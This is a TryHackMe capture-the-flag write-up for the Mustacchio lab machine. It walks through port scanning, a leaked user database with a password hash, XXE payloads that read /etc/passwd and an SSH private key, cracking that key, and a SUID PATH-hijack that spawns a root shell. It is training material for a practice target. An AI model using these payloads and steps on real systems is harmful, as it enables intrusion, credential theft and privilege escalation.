









# Mustacchio - TryHackMe Writeup

**Difficulty:** Easy       
**TL;DR:**  XXE → SSH Key Theft → PATH Hijack → Root
--------------------------------------

## Target
- Machine: `mustacchio.thm`
- Date: 2025-5-14
- Environment: TryHackMe / CTF

## Steps:

### 1. Initial scan:

```bash
nmap -sV -sC -Pn -T4 -p- mustacchio.thm


22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

#### Web Directory Enumeration 

```bash
gobuster dir -u http://mustacchio.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php


/custom               (Status: 301) [Size: 317] [--> http://mustacchio.thm/custom/]
/fonts                (Status: 301) [Size: 316] [--> http://mustacchio.thm/fonts/]
/images               (Status: 301) [Size: 317] [--> http://mustacchio.thm/images/]
/robots.txt           (Status: 200) [Size: 28]
```

### 2. Initial Access

Found `users.bak` SQLite database in `/custom/` directory:
```bash
sqlite3 users.bak

sqlite> .tables
#users

sqlite> SELECT * FROM users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
 
```


Crack the password online via [CrackStation](https://crackstation.net/)



#### Admin Panel Access

Accessed admin portal at `http://mustacchio.thm:8765` using credentials that found.




### 3. XEE 

The XML comment functionality was vulnerable to XXE injection attacks.

URL Encoded Payload:
```xml
<!DOCTYPE+replace+[<!ENTITY+xxe+SYSTEM+'file%3a///etc/passwd'>+]>
<comment>
++<name>%26xxe%3b</name>
++<author>TEST</author>
++<com></com>
</comment>
```



Modified XXE payload to read Barry's SSH private key:

```xml
<!DOCTYPE+replace+[<!ENTITY+xxe+SYSTEM+'file%3a///home/barry/.ssh/id_rsa'>+]>
```



#### SSH Key Cracking

```bash
ssh2john id_rsa | tee > hash-rsa
john hash-rsa --wordlist=/usr/share/wordlists/rockyou.txt
```


#### User Flag

SSH Connection:
```bash
ssh -i id_rsa barry@mustacchio.thm
```
User flag located at `/home/barry/user.txt`.




### 5. Privilege Escalation

SUID Binary Discovery:
```bash
barry@mustacchio:/home/joe$ find / -perm -4000 2>/dev/null 
```

Critical Finding: `/home/joe/live_log` - SUID binary owned by root

```bash
barry@mustacchio:~$ ls -la /home/joe/live_log
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
barry@mustacchio:~$ file /home/joe/live_log
/home/joe/live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
```

Revealed Functionality:
Executes `tail -f /var/log/nginx/access.log`.



### PATH Hijacking Exploitation 

1. Create Malicious Tail Binary:
```
cd /tmp

cat > tail << 'EOF'
> #!/bin/bash
> /bin/bash -p
> EOF

chmod +x /tmp/tail
```

2. Manipulate PATH Environment Variable:
```bash
export PATH=/tmp:$PATH
```

3. Execute SUID Binary:
```bash
/home/joe/live_log
```

#### Root flag

at `/root/root.txt`

```bash
root@mustacchio:/tmp# cat /root/root.txt 
[REDACTED]
```

